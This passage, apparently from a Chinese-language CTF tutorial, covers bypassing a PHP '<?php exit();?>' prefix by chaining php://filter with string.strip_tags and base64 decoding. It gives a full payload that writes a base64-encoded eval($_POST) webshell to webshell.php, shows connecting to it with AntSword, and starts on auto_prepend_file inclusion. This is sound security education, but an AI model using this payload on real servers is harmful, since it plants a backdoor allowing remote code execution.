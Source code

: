 ![image-20210909231459019](images/13.png)

用蚁剑连接一下

![image-20210909231418024](images/14.png)

其实我试了一下,在short_open_tag被注释掉的情况下蚁剑连接仍然可以成功

### string.strip_tags绕过

`string.strip_tags`过滤器可以去除字符串中的php和html标记,相当于用`strip_tags()`函数去处理字符串

来观察一下处理后的效果

![image-20210910184622241](images/15.png)

它使用与函数`fgetss()`一样的机制去除标记。可以看到我们的php代码已经被完全去除了

但是我们要去写入webshell,但是这样我们的webshell不是也会被去除了？

之前提到过,在php://filter中我们可以搭配多种过滤器一起使用,中间用`|`连接,可以搭配convert.base64来写入webshell了,这样我们就可以不用再去数前面有多少字符了,当前面的字符过多的时候这样就会很方便

就分为以下三个步骤

```
base64编码webshell		//以免受到string.strip_tags的影响

调用strig.strip_tags过滤器		//去除<?php exit();?>

调用convert.base64-decode过滤器		//对webshell进行解码写入
```

于是payload如下

```
?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=webshell.php&content=?>PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==
```

这里要闭合一下前面的php标签,不然我们的webshell也会被去除

![image-20210910190325361](images/16.png)

### .htaccess的预包含处理

`php.ini`中有两项：

```
auto_prepend_file 在页面顶部加载文件
auto_append_file 在页面底部加载文件
```

使用这种方法,可以在页面不做任何改变的情况下,在页面顶部或者底部包含文件

例如修改php-ini里面的`auto_prepend_file="/flag"`,那么在所有页面的顶部都会包含flag这个文件

当然,我们不需要再所有页面全部包含这个文件,况且我们做题的时候也无法修改php-ini
